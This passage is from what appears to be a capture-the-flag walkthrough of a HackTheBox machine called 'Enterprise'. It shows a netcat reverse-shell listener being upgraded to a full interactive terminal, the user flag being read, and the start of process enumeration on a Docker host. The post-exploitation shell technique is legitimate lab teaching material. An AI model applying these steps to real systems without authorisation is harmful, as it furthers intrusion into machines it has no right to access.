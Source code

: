 I’ll upgrade the shell:

```

www-data@enterprise:/var/www/html/files$ script /dev/null -c bash
Script started, file is /dev/null
www-data@enterprise:/var/www/html/files$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
www-data@enterprise:/var/www/html/files$ 

```

The box has one user, and I can grab `user.txt`:

```

www-data@enterprise:/home$ ls
jeanlucpicard
www-data@enterprise:/home$ ls jeanlucpicard/
user.txt
www-data@enterprise:/home$ cat jeanlucpicard/user.txt
08552d48************************

```

This host has the IPs 172.17.0.1 and 10.10.10.61, confirming that it is the Docker host.

## Shell as root

### Enumeration

`pstree` is installed, and a nice way to look at the running processes:

```

www-data@enterprise:/$ pstree
systemd-+-VGAuthService
        |-accounts-daemon-+-{gdbus}
        |                 `-{gmain}
        |-acpid
        |-agetty
        |-apache2-+-5*[apache2]
        |         `-apache2---sh---bash---bash---script---sh---bash---pstree
        |-atd
        |-cron
        |-dbus-daemon
        |-dockerd-+-docker-containe-+-docker-containe-+-mysqld---28*[{mysqld}]
        |         |                 |                 `-9*[{docker-containe}]
        |         |                 |-docker-containe-+-apache2---5*[apache2]
        |         |                 |                 `-9*[{docker-containe}]
        |         |                 |-docker-containe-+-apache2-+-apache2---sh-+
        |         |                 |                 |         `-5*[apache2]
        |         |                 |                 `-9*[{docker-containe}]
        |         |                 `-11*[{docker-containe}]
        |         |-docker-proxy---6*[{docker-proxy}]
        |         |-docker-proxy---4*[{docker-proxy}]
        |         `-16*[{dockerd}]
        |-irqbalance
        |-2*[iscsid]
        |-lvmetad
```